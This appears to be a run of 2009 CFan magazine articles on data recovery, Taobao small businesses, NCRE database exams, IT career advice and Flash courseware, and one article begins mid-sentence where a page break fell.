CFan：飞客作为一家专业的数据恢复公司，也在做这方面的培训，能否请你们谈谈数据恢复市场的现状？

聂阳：据IDC调查分析：数据存储量以年均80%的速度增长，数据备份恢复服务市场到2010年将增长到100亿美元以上，中国市场也将猛增到7亿美元。随着电子产品越来越多地走进千家万户，数据问题爆发得愈加频繁。一方面数据恢复的需求促进了市场供给，另一方面数据恢复相较传统维修业务的高回报率，促使了数据恢复公司如雨后春笋般成立。目前这一领域，代表性的如江民科技旗下的飞客数据恢复中心，已发展成大规模的全国性连锁服务商。

CFan：数据恢复工程师，一般薪资待遇如何？

聂阳：巨大的市场需求造成了短期的数据恢复人才短缺，国外经验丰富的数据恢复工程师薪金最高可达每月7万美元，国内水平较高的数据恢复工程师年薪也超过了10万元人民币。

# 芝麻开门

CFan：数据恢复工程师需要什么样的基础知识？

聂阳：到了数据恢复公司，一般会问你“用的操作系统是什么？”“分区类型是FAT32还是NTFS？”“存放的是什么类型的数据？”之类的问题。这就如同去医院看病，医生会问很多问题以判断是什么疾病一样。其实这几个常规问题，也反应出了对数据恢复工程师的基本知识要求：需要对各类操作系统、FAT32及NTFS等常见的硬盘分区格式、不同类型的文件格式等有深入的了解。所以在培训的初始阶段，我们一般要先讲解硬件的工作原理。

# 知己知彼 了解数据存储原理

无论是有实力的数据恢复公司还是市场上的那些零散的“专业数据恢复提供商”，其实从大家所使用的工具软件上来说，都是类似的。差别就在于经验和对软件的了解——每种软件对于恢复不同的文件系统、不同类型的数据、不同情况的故障原因，效果差别极大。而这也是一般用户所不了解的。所以针对不同的文件系统、不同的故障，适当地选择数据恢复软件可以有效地进行数据抢救。

怎么选择及合理应用数据恢复软件？首先必须了解存储介质的存储结构以及数据的存储原理，了解文件的读取、写入方式以及删除方式等。

# 文件的读取

操作系统从目录区中读取文件信息，包括文件名、扩展名、文件大小、修改日期和文件在数据区保存的第一个簇的簇号等。我们这里假设第一个簇号是0023，操作系统从0023簇读取相应的数据，然后再找到FAT的0023单元，如果内容是文件结束标志（FF），则表示文件结束，否则内容保存数据的下一个簇的簇号，这样重复下去直到遇到文件结束标志。

# 文件的写入

当我们要保存文件时，操作系统首先在DIR区中找到空区写入文件名、大小和创建时间等相应信息，然后在Data区找到闲置空间将文件保存，并将Data区的第一个簇写入DIR区，其余的动作和上边的读取动作差不多。

# 文件的删除

看了前面的文件的读取和写入，你可能没有往下边继续看的信心了。不过放心，Windows的文件删除工作却是很简单的，简单到只在目录区做了一点小改动——将目录区的文件的第一个字符改成了E5就表示将该文件删除了。

# 网络大补贴

当然，数据存储的原理，不是上面几段文字就能够说清楚的，所以对有志于数据恢复这一行业的朋友来说，应该多找一些相关的专业书籍深入研究阅读，另外，网上也能搜索到不少这方面的资料，下面就列举一些。

- ★FAT文件系统原理
  - http://zh.wikipedia.org/w/index.php?title=FAT32&variant=zh-cn
  - http://www.mym.net/blog/user2/shujuhuiifu/archives/2009/33442.html
- ★NTFS文件系统原理
  - http://zh.wikipedia.org/w/index.php?title=NTFS&variant=zh-cn
- ★Linux常见的ext3文件系统原理
  - http://zh.wikipedia.org/w/index.php?title=Ext3&variant=zh-cn

# 任务实战

在整个PC与服务器架构中，硬盘可谓是最为脆弱的部件，却又担当着最艰巨的任务——数据存储。正所谓“硬盘有价而数据无价”，一旦硬盘出现故障，用户的数据将无法得到保障。

从故障上来看，一般的数据恢复公司会把故障分为软件、硬件、开盘、磁盘阵列等几类。这几个分类又可以进一步细分，例如软件方面可以细分为：误删除、误格式化、误合并分区、文件损坏、病毒破坏等等。针对不同的问题会有不同的解决方案，一般用户并不知道这个道理，不管什么问题一律用从网上找到的恢复软件扫描修改，结果有可能加剧数据损坏。

# 实战：抢救RAW闪盘中的数据

当你把保存有重要文件的闪盘插入电脑的USB接口中，资源管理器中也很快显示出“可移动磁盘（X:）”的盘符，可是当你双击打开它时，却弹出磁盘未格式化的窗口，肯定会吓你一跳。当然不能点击“是”了，里面还有重要文件怎能格式化！当右击出问题的盘符，选择“属性”时，可看到它的文件系统变成了RAW。

RAW英文有未经加工的意思，Windows中则是指未经格式化的磁盘。本来用得好好的闪盘，因为中毒、误操作、读取数据过程中强行拔出、设计不良的USB接口等多方面原因造成闪盘分区被破坏，都会出现RAW问题。从RAW化磁盘中抢救数据，目前EasyRecovery（试用下载：http://www.onlinedown.net/soft/73968.htm）做得比较好。

第一步：下载后解压安装，然后插入故障闪盘，另外再插入一块好的闪盘（容量要大于故障闪盘），然后运行EasyRecovery，进入软件主界面后点选左侧“数据恢复”，然后点击右侧“Raw恢复”。

第二步：软件扫描系统后会发现RAW化的闪盘，点选它，再单击前进（Next），接下来是漫长的扫描过程。因为它没有显示具体的文件名，所以你要自己确定文件类型（比如要恢复的是RAR文件就勾选左侧DIR.RAR），并根据文件大小判断并选定要恢复的文件。

第三步：选好后点击“前进”进入下一个界面，在这里通过“浏览”设置恢复后的文件保存位置。最好是选择其他的磁盘，比如保存到另一块好的闪盘或移动硬盘上，实在没有第二块磁盘的话，可选择与要修复的文件不同的另一个分区，设置完毕，点击“前进”。恢复完毕，在设置的目标磁盘中会找到“DIR2.RAR”之类的文件夹，打开后就可以看到你需要的文件了。

### 小提示

- ★小编在做测试的时候，发现有些恢复的RAR文件头损坏，无法用WinRAR打开。这时可先启动WinRAR，在WinRAR内嵌的资源管理器中选中损坏的RAR文件，再点击工具栏的“修复”，根据向导提示操作，可修复RAR文件。
- ★在确认需要的数据都已经恢复完毕并已安全保存到别处之后，我们可以试试Mformat（U盘修复工具，http://work.newhua.com/cfan/200913/MformatV100.zip）这款软件来修复闪盘。解压后运行软件，它会自动检测到闪盘，本例中闪盘为H盘，点击“H”按钮即可开始修复。如果是同时修复多个闪盘，也可点击左下角“全部开始”，就不用一一点击了。修复好的闪盘，又会变回FAT32格式，可以正常使用了。不过这样的闪盘终究不是很稳定，重要资料以后最好不要用它来保存。

（飞客数据恢复/聂阳）

迎图标是丰收的农家小院，促销公告图是自己拍的吕梁山照片。为了省钱，枣花在“淘宝大学”搜索自学了几天，光影魔术手、PS等并用，终于完成了。她还添加自定义模块，开了一个模块“枣花随笔”，贴上了自己写的《忆事秋收》、《又见炊烟》等文章，让人们感受吕梁人的质朴和厚道。

# 产品特色是王道

刚开始枣花只上了一些红枣、核桃、小米、黄豆之类的产品，有顾客说产品单一，让枣花好好发掘土特产，越土越好！

# 第一桶金

正式开始营业的第二天，一个贵州的买家看到店里《忆事秋收》的文章，被田园生活感染，一次买了二百多元的东西，给了枣花很多鼓励，并建议她多上图片。于是枣花干脆开辟了第二个模块“走进小山村”，贴了自己拍的窑洞小院、金秋丰收等大量带有乡土气息的照片，有顾客说只有在电视剧《吕梁英雄传》里才看到过这样的场景。

# 发情感精华帖出名

丰富了产品以后，枣花以为可以等着顾客上门了，结果做了三四笔生意以后就冷清了。她发现，发帖宣传是既不花钱又最为有效的方法，于是每天潜心研究。开始她的帖子题目太一般，勾不起人们阅读的欲望，后来她把自己和老公的深情故事写下来，还玩“标题党”，帖子先后被置顶、加精、上首页，点击率超过十二万，每天都有好多淘友来聊天、买东西、交流开店经验、提建议，告诉枣花小店如何更好地发展。“淘宝小二通知我帖子准备在周二做重点推广，让我到时千万别走开。周二我起了个大早，刚刚上线旺旺就响个不停，好友加到爆满，店铺的收藏率上了六百多，都是潜在客户啊。到晚上十二点我打字打到手指发酸，我用真诚笑待每一个人，虽然很累，但是很开心！”

### 小提示

同是山西人的王小帮开了个“山里旺农家店”（http://shop35055439.taobao.com），还卖干豆角、豆丝、干瓜片苦菜、高粱秸秆根等土生土长的东西，此外他通过头像被恶搞成名；湖南永州的“零陵特产”（http://shop57687504.taobao.com）主要销售永州的山茶油、自家土鸡下的蛋（用厚纸盒加上糠和泡沫垫着不会破），还有黄豆、竹笋等等自家产的农产品。

果果：聪明淳朴的枣花让吕梁的红枣、核桃等土特产飞遍全国。广大的农民朋友，你也打算把家乡的特产通过电子商务，带给人们绿色、自然、健康的高品质生活吗？乡土特色，就是你最大的优势！

（本刊记者/果果）

CfanBoundEdition·2009 295

# 网店和旅游手拉手，滚滚客源不用愁

微微的轻风，暖暖的阳光，点燃旅游的热情！你是自助游还是跟团游？前者太麻烦又没折扣，后者行程不自由还可能有购物环节的不愉快……你是否知道，还有提供自助游攻略服务的网店？我们来听听老板MM的生意经吧！

# 玩出一个旅游服务店

卜豆角是一个爱玩的MM，常外出旅游。她发现大家最怕的就是在旅游点上当受骗，因为在旅行社工作，她有一些资源，就想开个网店给喜欢自助游的客人提供方便。2007年小店诞生了，叫做青青实惠坊 (http://shop34945060.taobao.com)，开始卖一些优惠景点门票（比如北京海洋馆），提供北京本地旅游的优惠预定和线路设计。“后来我一想，北京可以做，外地也可以做啊！”卜豆角就开始慢慢摸索，联系各地的旅行社合作。因为用心经营，老顾客带来新顾客，不到两年时间，网店就有了4颗钻。

# 第一桶金：

第一单是北京自助游，后来服务扩展到全国各地，夏天北京、桂林、杭州线路很火，到了冬天就是南方的海南、香港等，还有北京周边的温泉和滑雪等。旺季（4月～10月）生意格外好，现在网店的收入已经和卜豆角的本职工作差不多了。“关键这是自己的事业，比给别人打工强多了！”

# 网络催生新旅游模式

“现在跟团游的模式太老套了，很多年轻人不喜欢，我这里可以说是一种新型的自助旅游模式吧。”卜豆角到底玩的是什么模式？来看看她的服务步骤：

有客人想去景点玩，到店铺咨询，根据客人的时间、需要、预算来设计线路，并告诉他各景点有无优惠票，优惠多少，各个景点怎么去；客人满意后就开始订门票和宾馆，到宾馆后直接到前台报上名字即可入住，门票有专人（当地旅行社的朋友）给客人送到宾馆或约定的地点，交通由客人自己解决，线路中说明了坐车的方法、价格和时间。
“客人第一次出游很茫然，自己在网上找攻略估计会越找越晕。站在客人的角度考虑，像对待朋友一样，希望他们通过我能省点钱和时间，真的获得方便，玩得自由，开心！”所有的服务都可以用支付宝，玩回来再确认付款。看看客人的好评就知道卜豆角的愿望真的实现了。
有了好口碑，还需多多宣传。卜豆角在网店首页的一个小提示还挺有趣：“在本店成功预定桂林自助游业务的客人，只要在各大论坛（如：淘宝论坛、天涯网、我爱打折网等各大论坛）发表自助游记和攻略，发布分享桂林美丽景色的图片并提及本店的客人，可凭此游记的链接到本店领取20元现金哦。”

# 联合资源合作共赢

“一个人的力量是不够的，每个地方都有我合作的旅行社，他们提供优惠的门票和酒店等等，我帮客人设计线路。”
如何选择合作伙伴呢？卜豆角说有自己积累的关系，也有通过朋友介绍的。要注意对方的服务质量和态度，选择真诚、对这种操作模式感兴趣的，服务不好的宁愿停掉也不会选择。
“我的特色在于个性化攻略和优惠的价格，并且地点全（深圳、珠海、青岛、海南、云南等），现在有些网店也提供类似模式的服务，但地区比较单一，顾客就少了选择。”对于所有提供服务的地方，卜豆角都实地仔细考察交通、住宿、景点等情况：“我如果做得好，可能是因为花的心思比别人多。”

# 果果点评

看来，用好旅游资源也是一大商机啊！不过有人问了，我不在旅行社工作怎么办？
这就说明你太不会动脑筋了。卜豆角虽然学的是旅游管理专业，但开网店也是背着旅行社的老板偷偷开的，外地的旅行社合作资源也是自己找的。如果你给当地旅行社做代理，给他们增加利润，当然有不错的合作前景。没注意吗？不少网店都在顺便卖“欢乐谷”等优惠门票，这就是代理的好例子。IT产品可以做代理，旅游服务也一样。
这里我再举一个大学生与景点合作的例子，你一定会感觉“旅游代理”就在身边，钱景无限。
我们知道景点与旅行社有优惠协议价格，因为旅行社能带来大批游客。其实打开校园市场，也能通过合作获得不错的收益。宁波大学的大四学生小王在拍拍开了个网店，还有好几个大学生旅游的QQ群，主要销售“凤凰山主题乐园”的优惠门票，购票就送肯德基优惠券。除网络销售外，他最大的业务是组织高校学生包车前往，做了两年了，旺季时最高月利润达两万元。“一边与景点愉快合作，一边在学生会开展活动时赞助打知名度，要做好并不难！”
各位亲爱的读者，模式有很多，你打算尝试哪一种呢？
(本刊记者/果果)

# 我是数据指挥家 NCRE三级数据库技术与四级数据库工程师考试解读

我们生活在数据库中。此话怎讲？全球数据量疯狂增长，手工管理过于复杂，而智能的数据库来组织和管理就让一切变得如此轻松有序。我们的身份证、银行卡、公交卡、学生证、员工卡、社会保险、医疗保险，我们登录的所有网站、论坛……背后都是一个个庞大的数据库。是的，数据库技术的应用已深入到社会生活的各个领域。当数据库系统使用维护、应用开发等管理技术人员的需求与日俱增，你是否想成为其中的一员呢？

# 神通广大的数据库趣谈

计算机世界传媒集团B2C网站事业部工程师
王华偁
数据库技术是信息系统的核心技术和重要基础，高级的DBA（数据库管理员，门户网站不会超过10个）月薪能上2万，世界知名的Oracle（甲骨文）公司就是以数据库服务器等作为主打产品。
数据库是一种用来管理信息列表的手段，是内建的文件编排系统，有灵活的查找序列和输出格式，并与Web结合，实现方便的远程访问与电子传输。它就像一个大文件柜，管理的信息包括研究数据、业务记录、顾客请求、销售报告、人事记录、问题报告、学生成绩等。在庞杂的信息面前，数据库的力量就显示出来了，比如：
*店铺老板通过数据库保存员工和工资记录，以便知道给谁付过工资，什么时候付的，并且必须对这些记录进行汇总以便能向税务部门报收益表，还需要明了员工所做的工作以及对每项工作所做的安排。
*汽车零部件库房通过数据库了解哪些库房中有给定的零件，以便能填写顾客订单。
*玩具销售商通过数据库了解某项物品的当前销售曲线，以便能够估计是否需要增加库存量（对越来越流行的物品），或减少其库存量（从而用不着存放一大堆销售不好的东西）。
*球迷俱乐部的工作人员管理庞大的会员姓名地址簿。
*用数据库来存储网络广告，跟踪广告效果，如哪个站点访问了它们，被显示次数等信息。

# 成为数据库专业人才

你想成为一名数据库技术人才吗？你参加过全国计算机等级考试（NCRE）二级VFP与Access（数据库程序设计语言相关）、三级数据库技术、四级数据库工程师吗？本刊特别邀请教育部考试中心的专家来为大家解读NCRE中数据库相关的考试科目，以考促学，循序渐进，让庞大的数据在你的指挥下演奏美妙的乐章吧！
假如你从数据库语言的学习入手，通过了NCRE二级VFP或Access等数据库程序设计语言的考试，那么对数据库相关的基本概念就有了一定了解；通过对数据库理论及技术的进一步学习，就非常有希望通过NCRE三级数据库技术的考试；对数据库的设计、维护及应用等方面的知识再加以补充、梳理，就可以再接再厉迎战四级数据库工程师的考试，也许在不久的将来就成为数据库方面的高手了。
三级数据库技术主要考核数据库系统的基本理论和知识，要求考生具备计算机的基础知识，了解和掌握数据结构、操作系统的基本原理和方法以及数据库系统的基本原理和方法，熟悉数据库应用系统的开发方法和工具的使用，从而具备从事数据库应用系统项目开发和维护的基本能力。除此之外，要求掌握计算机操作，具有用C语言编程的能力。
四级数据库工程师在三级数据库技术的基础上，考核数据库系统的基本理论和技术，以及数据库设计、维护、管理、应用开发等的基本能力，主要考查数据库应用系统分析及规划、数据库设计及实现、数据存储技术、并发控制技术、数据库管理与维护以及数据库技术的发展与新技术等内容。此外，要求具有用VB语言管理和开发简单数据库应用系统的能力。
怎么样？你向自己发起挑战了吗？制订计划，扎实学习，一定能成功！

### 小提示

数据库技术产生于20世纪60年代，与计算机不少领域都有密切的联系。
1.与操作系统：数据库技术是在操作系统的文件系统基础上发展起来的，需要操作系统的支持才能正常工作。
2.与数据结构：不仅要用到数据结构中的链表、树、图等知识，数据库所采用的各类数据模型（如关系数据模型、面向对象数据模型）本身就属于复杂数据结构。
3.与程序编译：当用户访问数据库时，数据库管理系统需要对用户提交的各类查询请求做查询处理和优化，类似于对用高级程序设计语言编写的程序进行的编译处理过程。
4.与软件开发：一些大型数据库系统或数据库应用系统属于复杂的软件系统，开发这类软件系统既要遵循数据库系统的原理和方法，也要按照软件工程所定义的软件生命周期模型，采用系统化、工程化开发模式，以保证软件系统的开发质量和开发效率。

| 科目 | 形式 | 内容 |
|---|---|---|
| 三级数据库技术 | 笔试和上机相结合 | 笔试考查数据库技术及其相关的理论知识，选择题和填空题，120分钟；上机考试考核C语言的编程能力，60分钟 |
| 四级数据库工程师 | 笔试 | 选择题、简答题、论述题，120分钟 |

# 在校生，请时刻准备着为找工作而努力奋斗

看过上期的文章，你肯定对自己有了一定的了解，对应该毕业生的上作分配情况已经有了了解，对自己的目标也多少有底了。有了方向之后，你就要开始着手设计通向实现职业目标的路径了。

# IT 就业：必须站得高，看得远

提到3G，如果你想到的是随时随地的WOW、BT下载，那就实在太惨了……

3G的大力推广，对于在校的学生来讲，就是就业的机会。而且，如果3G的发展顺利，未来和3G有关的行业薪水也会上升。

当然了，3G这个热门行业也因此吸引了大批高手进入IT业。对于技术密集型行业或企业对技术人才非常的重视，电信、IT和互联网等信息化整合服务带来了对既有本行业背景知识，又懂电脑的复合型人才的需求。对于掌握电脑与通信方面的复合型人才需求更是火热。

不过，你也要小心，正因为这行业太热门，面临激烈的行业竞争，人才竞争也就越多。所以早做准备，提前出手是很重要的。

# 成绩好：仅仅只是会考试，其他什么都不是

在很多人的心里都存在这样的两个认识误区：第一，认为只要学业成绩好就会受到重视，好工作就会如潮水般涌来；第二，在工作中所需要的能力，在大学里就已经培养了。

就因为是有了这两个错误认识，导致一边是N多的大学生急着找工作，另一边是大批机构感叹招不到合适的员工。这一点在IT行业体现得非常明显。其实，学业成绩好，只能说明你很好地掌握了一定的专业理论知识，或是说有考试能力，并不说明你的专业能力强、专业素养高。一个合格的职业人应该既具备一定的专业理论知识又具有职业化综合素养，两者缺一不可。要知道理论知识是从学校中获取的，而职业化综合素养必须在实践中锤炼和提升。

# 如果我是你：课内专业知识必须学

对于已经明确要进入IT行业的同学来说，首先来说，就是学好功课。毕竟未来一些工作中还是会遇到的，比如数学，很多人认为它和工作没有任何关系，可其实当你从事编程行业时，如果不把这个学好，想升职时就会出现知识瓶颈——如何管理数据库，如何制作整个程序的模型等等。

另外，学好这些知识也有利于培养自己的学习能力，毕竟有些企业还会考虑你的学习成绩的。

# IT 行业：爱上这一行从入学开始

现在估计还在上学的你已经对某个IT职业有了兴趣，现在你要做的应该就是保持敏感，时刻关注该行业对人员技能和需求的变化，这将决定学习方向。认真分析一下这个领域对所需人才有什么样的标准和要求，诸如学历、工作经验、专业背景等等；与之相比，自己有哪些长处和劣势。想要得到发展，就要随时按市场的要求调整自己的目标和充电方向，才能在济济人才中脱颖而出。假设你想成为一名网页设计师，那你必须拥有较好的审美的素质、应用软件的能力，以及感受生活的敏锐的觉察力。网页设计相当于平面设计，网页设计师可以将平面设计中的审美观点套用到网页设计上来。如对比、均衡、比例、节奏美、韵律美以及色彩的搭配显示出的轻快活泼的美，这些都要求设计师需具备一定的审美能力。作为合格的网页设计师，一定的文化修养和感受生活的敏锐觉察力也是必不可少的。社会时事的变化、经济形势的发展、人们审美观念的变化等等，社会的一举一动都能在网页上面反映出来。此外你要时时关注软件的新发展，适应新功能，以增加工作的效率。很多设计师却只重视网页设计制作软件的使用，而忽视一些内部技术方面的知识，这样的结果很可能是你的设计非常好，但技术方面却无法实现。

而一个Web网游设计师除了须具备一般网页设计师的素质和技术外，对他的沟通能力、团队协作精神有特别的要求。设计团队在相处融洽的团队里，更容易迸发思维的火花。一个好的设计师在做任务设计时要从技术和用户体验两个方面去考虑，即好玩又省事，这就需要设计师能充分了解用户的心理需求也能把自己的想法很好的传递给客户。

# 非 IT 专业：找到切入点，这点很重要

对于非计算机专业的毕业生要进入IT行业，你必需找到一个很好的切入点：获取进入某职业的技能证书或积累从事该职业的实战经验。职业规划专家、爱未来教育集团首席顾问李廷海先生曾于2007年接待过一个学机械专业的大学毕业生李文，他当时正供职某大型国营企业，他自述很不喜欢自己的专业，也难以适应公司文化，过得很不开心。他很喜欢玩电脑，IT业发展前景看好，他很想做软件开发类的工作，但不知道自己的想法对不对？李廷海先生在对他进行一系列测评和一番交流之后，支持了他的想法，然后建议他先去参加培训，考取从事软件类工作的技能证书。先找一家小点的软件公司实习，积累一些实践经验，再着手应聘自己心仪的公司。之后李文先去了某培训机构参加相关技能培训，然后托朋友帮忙去一家软件公司帮忙（实习），现在李文终于如愿以偿，成为了上海浦东一家德国公司的软件测试师。

# 实习 & 兼职：小沈阳说的好，这个真要有

要注意实践积累，很多人以为大学毕业了就自动进入社会了，以为在工作场所中所需要的能力，学校已经教了。可是真正进入社会后发现自己什么也不是，什么也不懂。据我了解，企业对大学生抱怨最多的是：大学生普遍欠缺基本的工作能力：不会撰写计划书、不会处理项目、缺乏表达、沟通能力、缺乏多元化知识……怎么办？

你应该主动介入社会，主动了解市场，强化市场认知与市场经验，尽力缩短自己从学校到社会/市场的距离。很多大学生等着学校安排实习工作，这其实是学生自己应该做的工作。进入IT行业有许多方法，例如通过熟人、私人关系、报刊、媒体、公共职业介绍所（网站）、社会中介机构、学校就业服务中心等等。在众多的就业渠道中，暑期打工和同学（或学长）介绍是二条应该引起重视的渠道。大学生可以利用暑假或寒假期间到相关的单位进行实习，哪怕是通过免费工作的方式向自己中意的单位去申请实习机会，以获得实际的岗位操作知识。

大学期间还可以通过尝试各种兼职，在学校阶段就铸就自己的职业能力，提前进行职业准备。有的同学去做兼职，纯粹是为赚钱而兼职，做兼职要从有利于自己的职业锻炼为出发点。有一部分同学选择兼职工作机会时从来不考虑工作的性质或给自己带来的职业收获，而是首先看薪水，其他能实际锻炼自己和提高自己专业水平的相对薪水低的工作反而不考虑。大学生选择做兼职应以提高自己的职业能力为目标。大学生也可以先以社会实践为主，多接触社会，提高自己的社会适应能力，提高自己的沟通能力，提高自己的处事能力和解决问题的能力。

毕业于同济大学软件工程专业、现在中软国际工作的刘宇在大三时参加了微软的夏季实习生招聘活动。他曾经向学弟、学妹们介绍了他的实习体会：他认为实习期间要多和同事交流，有什么问题可以和同事多沟通，多向他们学习点工作经验，自己要主动，因为很少有人会主动问你要不要帮忙。但提高自己独立解决问题的能力也非常重要。公司和学校毕竟不一样，在公司里每个人都有自己的任务要完成，如果老耽误别人的时间影响工作进度，公司是不会喜欢这样的人的。虽然刘宇最后没能留在微软工作，但这段经历对他后来找工作并顺利进入中软国际有很大帮助。通过微软的实习，刘宇对软件行业有了一定的了解，英语阅读、口语水平有了很大提高，技术方面更是不用说，尤其是沟通、交流能力有很大提高。实战经验是最宝贵的，任何一家企业都不会喜欢一个从来没有任何操作经验的“生瓜蛋”。

# 完美的你：补充不足，完善自己

关注、完善你的知识结构，强化你的不足。大家可能听说过“木桶理论”。木桶理论的最初含义是指：木桶的最高储水量取决于木桶最短板的长度，水就是个人的竞争能力。决定我们能力大小的或者影响着我们成功的往往不是最长的那块木板，而是最短的那块木板。如果我们能对“木桶理论”善加分析，去强化我们的不足，那么我们就很容易取得成功。

不少用人单位更看重的是IT人才的综合素质，这不单包括基础理论知识和实际动手能力，还包括再学习能力、工作责任心等各方面的素质和能力。目前IT产业内部分工越来越细，专业性越来越强，这就要求人才的专业知识更加细化。现在不少学校的计算机应用、电子等专业知识相对老化，需要毕业生在实际工作中进行再学习，因为学校里所学的知识只是基础，相对于工作来讲是远远不够的，而且不少在学校里所学的知识在实际工作中不一定用得上，这就更需要人才进一步学习。IT产业同其他行业一样，看重人员的综合素质，有的IT专业毕业生在具体工作中能够独立地完成自己的工作，并能和同事保持良好的合作关系，企业对此很放心，但有的人却没有应有的责任心和处事能力，综合素质的欠缺影响了一部分IT专业学生的就业和发展。

对照IT人才素质标准，找到你的“短板”，强化你的不足，将取得事半功倍的效果。如果你能按照上述三方面去做好准备，相信即使有一天IT行业由热门转为冷门，或者你将退出该行业，你也能坦然对之，并能顺利过渡到下一个职业目标。

### 小编有话说

看完了文章，再想想小编身边的同学、朋友，完全就是文章所描写的样子。比如有个朋友就经常感叹学习成绩不如他的现在反而挣钱很多。其实成绩好，只能证明你会考试，而职场是一个人综合的素质体现，成绩能说明一问题，但不代表全部。

# NEW TECH IT新技术

# LED Film (发光二极管薄膜)

LED通常用来照明和显示，但伊利诺伊大学香槟分校的科学家们8月21日表示，已经研发出发光二极管薄膜，这意味着今后的笔记本电脑显示器部分将可以没有厚度。该薄膜薄到可以透视另一侧的景物，可塑性很强，而且可以弯曲，因此应用非常广泛，例如用来制作公共汽车的车窗等等，当然用于小型电子产品就更合适了。

# Manless Drive (无人驾驶出租车)

英国机场将使用一款全新设计的无人驾驶出租车接驳旅客，希望能取代按照指定路线行驶的巴士。只要在车厢内输入目的地，这辆出租车就会根据指定的道路行走，车厢可以载4个人再加上行李，用电池推动，并可以每小时25km的速度行驶。最初会有18辆这种出租车，与现在机场所有的无人驾驶列车不同的是，旅客上车后，可自行挑选想去的目的地。

## Flash不神秘，手把手教你做课件系列之巧用Flash模板，测验类课件速成

果果：在前几期，我们通过不同实例认识了Flash课件，简单的动画、图片、声音等都可以随教学需要灵活展示，各种实验或教学场景都能设置神奇的动画效果，还能进行简单的交互。在课堂上，少不了向学生提问，不少老师提出疑问：选择、填空、拖拽等题型如何实现呢？本期就来介绍如何用Flash本身自带的‘测验’模板来‘改装’课件，轻松实现很强的交互效果，课件首页和测验结果页一应俱全（效果演示地址：http://022w.net/flash/sort01/sort020/show-46.html，素材和源代码下载地址：http://022w.net/soft/sort013/sort014/down-12.html）。

测验模板看清楚。打开Flash，新建文件选择‘测验’，利用‘测验’模板可以制作出测验类课件，它包含6种测验题型：拖曳题、填空题、热对象题、热区题、多项选择题、判断题。这6种测验题型都有一一对应的组件，制作课件时，先要打开这些组件的参数面板，对参数进行设置。测验模板的图层结构从上往下看依次为：

- 1. actions（命令）图层
- 2. title（标题）图层：放置测验课件的标题，可以将其删除，换成自己的标题
- 3. Interactions（主体部分）图层：是最主要的图层，模板提供的6种测验题都在该图层上，图层上共有8个关键帧，第1个关键帧上的内容为首页，页面上没有正式的测验题目，可以放一些关于测验内容的说明。从第2帧到第7帧，每个帧上对应一种测验题型（刚才提到的那6种），第8帧上的内容为测验成绩，等测验题做完以后，影片将跳到该帧显示测验成绩
- 4. controls（组件）图层：图层上包含一个测验组件对象，通过对它进行参数设置，可以控制测验页面是否以随机顺序显示，以及是否显示测验成绩页面等
- 5. background（背景）图层：图层上放置的是整个模板影片的背景图形，也可以自己创建一个背景图形元素，使得每一个版块有自己的背景

基础篇：巧妙套用现有测验模板。下面以多选题为例，来介绍一下套用‘测验模板’来制作课件的简单过程。首先添加‘多项选择题’题目。选择‘操作’图层的第6帧，场景中显示出多项选择题的相关内容。双击‘多项选择交互操作’进入，选中左侧的‘多项选择交互操作’，Alt+F7调出MultipleChoice编辑画面后，在内容和控制部分修改可供选择的答案数。如果你只拿出4个答案供选择，那么将最下一个个‘复选框’实例删除；如果想拿出6个答案供选择，就再复制一个‘复选框’实例，并填上实例名Checkbox1。依此类推。接下来，为多项选择题页面添加测试题目。选中‘多项选择交互操作’组件，在‘交互’下的大文本框中输入多项选择题的题目，其备选答案设置共有3个参数—实例、标签、正确。实例：这里的实例名称与备选复选框组件实例的名称相一致。现在的题目共有5个备选答案，对应有5个复选框组件实例。标签：这里输入的文本是对应备选答案，是位于复选框旁边的文字。正确：选中正确答案所对应的复选框，系统才能正确判断出答题正确与否。

进阶篇：量身订制单一测验题。刚才做的是一个综合题型的测验题课件，包括测验模板提供的6类测验题，更多时候，制作课件用单一类型的测验题就足够了，比如全是选择题。如何实现呢？第一步：执行‘从模板新建→测验→测验样式2’命令，新建一个影片文档。第二步：选择‘操作’图层，保留该图层的第1帧（测验首页），第6帧（测验题页面），第8帧（测验成绩页面），将其他5个关键帧（其他5种类型的测试题页面）全部删除，按Del键删除即可。第三步：根据课件中包含的测试题目数量，将‘操作’图层上的第3帧（测验成绩页面）拖放到合适的位置。假设课件中包含8道测试题目，那么将第3帧拖放到‘操作’图层的第10帧，其他图层也做相应拖拽。第四步：添加另外7道选择题页面关键帧。选中‘操作’图层第3帧，按F6键，插入一个关键帧。同法，在‘操作’图层的第4帧到第9帧处，分别插入关键帧，并把其他图层中的最后帧都移动到第10帧。第五步：按照编辑选择题页面的方法，对‘操作’图层上的8个选择题页面进行具体设置。（天津谢文柱）

## 品二味套餐，玩转多媒体教学课件

取长篇。把PPT艺术字、美图搬到Flash、AW中。在PPT中，我们可以通过艺术字来完成精美文字的制作，如果想在FLASH、AW中使用PPT的艺术字怎么办呢？插入→艺术字→选中→右键另存为图片，就可以在另两款软件中插入PPT中的艺术字了，非常方便。随着多种插件的出现，PPT在制作多媒体课件时的元素更加多样化。选中目标，单击鼠标右键，另存，就能将不错的图形、图表、剪贴画素材用类似艺术字的方法引用到另两款软件中，节省大量的时间。在图表保存时要注意鼠标指针为十字形时才出现另存为图片的选项。

借AW为PPT、Flash加把锁。众所周知，AW是不可逆的，因此其保密性也是极其优秀的。我们可以通过将PPT、Flash嵌入到AW中的方式来加把锁。将关键部分的交互动作用AW的软件来完成。如一个Flash课件，首先将其分解为各部分素材，然后将其交互设置用AW中的按键、热区域、热目标来代替，打包后的课件保密性就大大增强了。

PPT套用FLASH便捷完成多重动画。PPT的长项是演示，对动画的设计和处理往往并不能够令人满意，所以我们往往通过Flash进行一些动画的制作，然后通过PPT中的自定义动画来着重显示动画效果。对于初学者来讲，不推荐使用通过控件工具来调用Flash。原因1：路径，很多人对于控件工具中提供的连接方式（绝对/相对路径）并不能很好理解，所以常常会出现将PPT复制到另一台电脑上导致动画丢失或无法正常显示；原因2：优化版本，由于很多优化版本在对于控件组件优化时导致的丢失问题，打包后动画播放可能无效或产生花屏；原因3：播放器，很多版本在使用控件打包后，默认将其播放器一同打包，以保证运行环境，但是容易出现由于另一台机器的播放器版本与打包版本不一致，而导致选择冲突无法播放的情况。建议在PPT中套用Flash时选择‘插入→影片’来完成，不过如果在不使用控件工具，如Flash中涉及到交互功能，则有可能为不可用。此外在制作Flash动画时，尽量不要使用交互功能，设置为循环自动播放即可。尽量避免将FLASH课件套用在PPT中。如有必要，建议使用超链接的方式，在新窗口中执行Flash完成。

